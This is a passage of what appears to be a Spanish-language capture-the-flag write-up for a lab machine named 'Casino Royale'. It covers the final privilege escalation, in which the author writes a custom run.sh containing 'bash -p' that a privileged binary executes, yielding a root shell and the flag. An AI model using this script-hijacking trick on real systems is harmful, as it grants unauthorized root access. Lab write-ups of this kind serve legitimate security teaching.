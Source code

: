 Dice que necesita de un archivo `run.sh`. Probamos un archivo creado por nosotros con el mismo nombre y que contenga lo siguiente:

```bash
#!/bin/bash

bash -p
```

Si ejecutamos ahora el binario estaremos como `root`:

![](/image/vh-writeup-casino-royale/root.png)

Por último, solo quedaría ver la flag:

![](/image/vh-writeup-casino-royale/flagBash.png)

![](/image/vh-writeup-casino-royale/flagFinal.png)




